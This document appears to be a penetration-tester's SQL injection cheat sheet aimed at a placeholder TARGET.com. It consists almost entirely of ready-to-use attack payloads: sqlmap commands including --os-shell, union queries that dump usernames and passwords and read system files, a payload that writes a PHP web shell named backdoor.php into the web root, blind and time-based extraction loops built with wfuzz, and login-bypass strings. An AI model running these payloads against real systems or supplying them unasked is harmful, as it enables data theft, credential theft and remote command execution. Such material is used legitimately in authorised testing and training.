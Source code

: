 #### sqlmap

```
sqlmap -u http://TARGET.com/index.php?id=1 -p "id"
sqlmap -u http://TARGET.com/index.php?id=1 -p "id" --dbms=mysql --dump
```

**attempt to launch shell**
```
sqlmap -u http://TARGET.com/index.php?id=1 -p "id" --dbms=mysql --os-shell
```

#### Iterate process in burp

union to find cols being displayed

```
http://TARGET.COM/index.php?id=2 union all select 1, 2, 3

```
version

```
http://TARGET.COM/index.php?id=1 union all select 1, 2, @@version
http://TARGET.COM/index.php?id=2%20union%20all%20select%201,%202,%20@@version

```
user

```
http://TARGET.COM/index.php?id=1 union all select 1, 2,user()

```
table names

```
http://TARGET.COM/index.php?id=1 union all select 1, 2, table_name from information_schema.tables

```
user table

```
http://TARGET.COM/index.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'

```
extract user name and passwords

```
http://TARGET.COM/index.php?id=1 union all select 1, username, password from users

```
load file

```
http://TARGET.COM/index.php??id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')

```
create file using INTO OUTFILE

```
http://TARGET.COM/index.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'

```

#### SQL Injection


```php
limit <row offset>,<number of rows>                          # display rows based on offset and number  

count(*)                                                     # display number of rows  

rand()                                                       # generate random number between 0 and 1 

floor(rand()*<number>)                                       # print out number part of random decimal number 

select(select database());                                   # double query (nested) using database() as an example 

group by <column name>                                       # summerize rows based on column name  

concat(<string1>, <string2>, ..)                             # concatenate strings such as tables, column names  

length(<string>)                                             # calculate the number of characters for given string 

substr(<string>,<offset>,<characters length>)                # print string character(s) by providing offset and length 

ascii(<character>)                                           # decimal representation of the character 

sleep(<number of seconds>)                                   # go to sleep for <number of seconds>

if(<condition>,<true action>,<false action>)                 # conditional if statement 

like "<string>%"                                             # checks if provided string present

outfile "<url to file>"                                      # dump output of select statement into a file

load_file("<url to file>")                                   # dump the content of file
```


Determine number of columns
```php
http://TARGET.COM/index.php?id=1 order by <number>
wfuzz -c -z range,1-10 "http://TARGET.COM/index.php?id=1 order by FUZZ"
```

Identify printable union columns 
```php
http://TARGET.COM/index.php?id=-1 union select <number of columns seperated by comma>
```

Dump the content of table
```php
http://TARGET.COM/index.php?id=-1')) union select <column1>,<column2> from <table name> into outfile "<url to file>" --+
```

Print back-end SQL assuming column 3 content gets diplayed
```php
http://TARGET.COM/index.php?id=-1 union select 1,2,@@version,4,...
```

Print user running the query
```php
http://TARGET.COM/index.php?id=-1 union select 1,2,user(),4,...
```

Print database name
```php
http://TARGET.COM/index.php?id=-1 union select 1,2,database(),4,...
```

Print database directory
```php
http://TARGET.COM/index.php?id=-1 union select 1,2,@@datadir,4,...
```

Print table names 
```php
http://TARGET.COM/index.php?id=-1 union select 1,2,group_concat(table_name),4,... from information_schema.tables where table_schema=database()
```

Print column names
```php
http://TARGET.COM/index.php?id=-1 union select 1,2,group_concat(column_name),4,... from information_schema.columns where table_name='<table name>'
```

Print content of column
```php
http://TARGET.COM/index.php?id=-1 union select 1,2,group_concat(<column name>),4,... from <table name>
```

Use `and` statement as substitute to reqular comments such as `--+`, `#`, and `/* */`
```php
http://TARGET.COM/index.php?id=1' <sqli here> and '1
```
Determine databsae name
```php
http://TARGET.COM/index.php?id=1' and (substr(database(),<offset>,<character length>))='<character>' --+
for i in $(seq 1 10); do wfuzz -c -z list,a-b-c-d-e-f-g-h-i-j-k-l-m-n-o-p-q-r-s-t-u-v-w-x-y-z --hw=<word count> "http://TARGET.COM/index.php?id=1' and (substr(database(),$i,1))='FUZZ' --+";done 
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://TARGET.COM/index.php?id=1' and (ascii(substr(database(),$i,1)))=FUZZ --+";done 
```

Determine table name
```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://TARGET.COM/index.php?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),$i,1)))=FUZZ --+";done # increment limit first argument by 1 to get the next available table name 
```

Determine column name
```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://TARGET.COM/index.php?id=1' and (ascii(substr((select column_name from information_schema.columns where table_name=<table name> limit 0,1),$i,1)))=FUZZ --+";done # increment limit first argument by 1 to get the next available column name 
```

Confirm time-based
```php
http://TARGET.COM/index.php?id=1' and sleep(10) --+
```

Determine database version
```php
http://TARGET.COM/index.php?id=1' and if((select version()) like "5%", sleep(10), null) --+
```

Determine database name 
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://TARGET.COM/index.php?id=1' and if((ascii(substr(database(),$i,1)))=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt>
```

Determine table name 
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://TARGET.COM/index.php?id=1' and if((select ascii(substr(table_name,$i,1))from information_schema.tables where table_schema=database() limit 0,1)=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # increment limit first argument by 1 to get the next available table name 
```
Determine column name
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://TARGET.COM/index.php?id=1' and if((select ascii(substr(column_name,$i,1))from information_schema.columns where table_name='<table name>' limit 0,1)=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # increment limit first argument by 1 to get the next available column name 
```

Extract column content
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,0-10 -z range,32-127 "http://TARGET.COM/index.php?id=1' and if(ascii(substr((select <column name> from <table name> limit FUZZ,1),$i,1))=FUZ2Z, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # change <column name> to get the content of next column
```

Other

```php
OR 3=3;#
OR 2=2 LIMIT 1;
OR 'a'='a
OR 1=1 --+
```







